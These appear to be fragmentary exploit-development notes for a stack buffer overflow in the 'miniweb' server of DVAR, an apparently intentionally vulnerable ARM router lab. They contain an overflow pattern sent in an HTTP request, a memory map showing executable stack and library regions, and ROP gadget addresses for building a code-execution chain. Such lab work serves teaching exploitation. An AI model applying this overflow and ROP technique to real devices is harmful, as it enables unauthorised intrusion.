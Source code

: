 It is in ARM mode.


    http://dvar/basic.html?aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaaaaabbbbAAAABAAACAAADAAAEAAAFAAAGAAAHAAAIAAAJAAAKAAALAAAMAAANAAAOAAAPAAAQAAARAAASAAATAAAUAAAVAAAWAAAXAAAYAAAZAABBAABCAABDAABEAABFAABGAABHAABIAABJAABKAABLAABMAABNAABOAABPAABQAABRAABSAABTAABUAABVAABWAccccddddeeeeffffgggghhhh

    aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaaaaabbbbAAAABAAACAAADAAAEAAAFAAAGAAAHAAAIAAAJAAAKAAALAAAMAAANAAAOAAAPAAAQAAARAAASAAATAAAUAAAVAAAWAAAXAAAYAAAZAABBAABCAABDAABEAABFAABGAABHAABIAABJAABKAABLAABMAABNAABOAABPAABQAABRA



    # ldd /usr/bin/miniweb 
    /lib/ld-musl-armhf.so.1 (0x2a000000)
    libgcc_s.so.1 => /lib/libgcc_s.so.1 (0x40004000)
    libc.so => /lib/ld-musl-armhf.so.1 (0x2a000000)


    gef➤  vmmap 
    Start      End        Offset     Perm Path
    0x00010000 0x00014000 0x00000000 r-x /usr/bin/miniweb
    0x00023000 0x00026000 0x00003000 rwx /usr/bin/miniweb
    0x40000000 0x40064000 0x00000000 r-x /lib/libc.so
    0x40064000 0x40065000 0x00000000 r-x [sigpage]
    0x40068000 0x40069000 0x00000000 r-x /tmp/TZ
    0x40073000 0x40074000 0x00063000 r-x /lib/libc.so
    0x40074000 0x40075000 0x00064000 rwx /lib/libc.so
    0x40075000 0x40077000 0x00000000 rwx 
    0x40078000 0x40089000 0x00000000 r-x /lib/libgcc_s.so.1
    0x40089000 0x4008a000 0x00009000 rwx /lib/libgcc_s.so.1
    0xbefdf000 0xbf000000 0x00000000 rwx [stack]
    0xffff0000 0xffff1000 0x00000000 r-x [vectors]



Building ROP:

In `./libgcc_s.so.1`,:

    base: 0x40078000

    0x4110                E8BD800F                  pop {r0, r1, r2, r3, pc}

    0x8674                E1A0200D                  mov r2, sp
    0x8678                E12FFF33                  blx r3




    > 1 + 0x2c42          46C0                      nop         ; (mov r8, r8)
     + 0x2c44            4708                      bx   r1
    _______________________________________________________________

    > 1 + 0x2c46          46C0                      nop         ; (mov r8, r8)
     + 0x2c48            4710                      bx   r2
    _______________________________________________________________
